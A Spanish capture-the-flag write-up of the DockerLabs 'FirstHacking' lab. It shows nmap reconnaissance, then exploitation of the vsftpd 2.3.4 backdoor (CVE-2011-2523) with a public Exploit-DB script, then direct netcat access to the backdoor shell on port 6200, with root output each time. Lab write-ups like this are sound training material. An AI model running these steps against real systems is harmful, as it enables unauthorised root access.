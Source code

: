 ```yaml
---
title: FirstHacking
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-firsthacking/firsthacking_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ftp
  - tcp
  - cve
  - information gathering
  - cve exploitation
  - backdoor

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.046 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.046/0.046/0.046/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 21/open/tcp//ftp///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```
/home/kali/Documents/dockerlabs/firsthacking:-$ sudo nmap -sCV -p21 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
Service Info: OS: Unix
```

---
## CVE Exploitation

El escaneo revela que en el puerto 21 está corriendo ```vsftpd``` versión ```2.3.4```, busco exploits públicos relacionados usando searchsploit.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ searchsploit vsftpd 2.3.4
```

![](assets/img/dockerlabs-writeup-firsthacking/firsthacking1.png)

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ cp /usr/share/exploitdb/exploits/unix/remote/49757.py .
```

Este exploit está escrito en Python y requiere la instalación de la librería [telnetlib3](https://pypi.org/project/telnetlib3/). Para instalarla, utilizo pip en un entorno virtual de Python.

```terminal
(Entorno_Python)-/home/kali/Documents/dockerlabs/firsthacking:-$ pip install telnetlib3
```

El exploit tiene éxito y me otorga acceso a una shell con privilegios de root en el sistema.

```terminal
(Entorno_Python)-/home/kali/Documents/dockerlabs/firsthacking:-$ python3 49757.py 127.17.0.2
/home/kali/Documents/dockerlabs/firsthacking/49757.py:11: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
Success, shell opened
Send `exit` to quit shell
id
uid=0(root) gid=0(root) groups=0(root)
```

> Para explotar esta misma vulnerabilidad con Metasploit, consultar el writeup [Tproot](https://litio7.github.io/posts/dockerlabs-writeup-tproot/).
{: .prompt-tip }

---
## Backdoor

La vulnerabilidad [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) está relacionada con un backdoor que se introduce cuando el servicio FTP es comprometido. Este backdoor abre el puerto 6200 y permite conexiones entrantes, para obtener acceso a la máquina afectada.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1.2 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 21/open/tcp//ftp///, 6200/open/tcp//lm-x///      Ignored State: closed (65533)

/home/kali/Documents/dockerlabs/firsthacking:-$ sudo nmap -sCV -p21,6200 -vvv -oN nmap2.2 127.17.0.2
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.3.4
6200/tcp open  lm-x?   syn-ack ttl 64
| fingerprint-strings: 
|   GenericLines: 
|     sh: 1: 
|     found
|_    found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6200-TCP:V=7.94SVN%I=7%D=1/3%Time=67785E8D%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,28,"sh:\x201:\x20\r:\x20not\x20found\nsh:\x202:\x20\r:\x20
SF:not\x20found\n");
Service Info: OS: Unix
```

A través del puerto 6200, es posible conectarse a la máquina utilizando Netcat y obtener acceso con privilegios de root.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ nc 127.17.0.2 6200
id
uid=0(root) gid=0(root) groups=0(root)
```
